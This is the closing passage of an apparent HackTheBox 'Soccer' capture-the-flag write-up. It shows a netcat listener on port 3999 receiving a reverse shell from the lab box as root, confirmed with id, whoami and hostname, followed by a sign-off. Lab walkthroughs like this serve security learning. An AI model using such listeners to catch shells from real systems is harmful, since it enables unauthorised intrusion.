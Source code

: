 On our listner we should get a connection back.

```bash
┌──(kali㉿kali)-[~/Desktop/ctfs/Soccer-htb]
└─$ nc -lnvp 3999  
listening on [any] 3999 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.194] 38560
# id 
id 
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
# hostname
hostname
soccer
# 

```

Now we have root privilege's on the box. Hope you liked it. Follow me on [Twitter](https://twitter.com/Mujahid\_Hashar).

[^1]: WEBSERVER
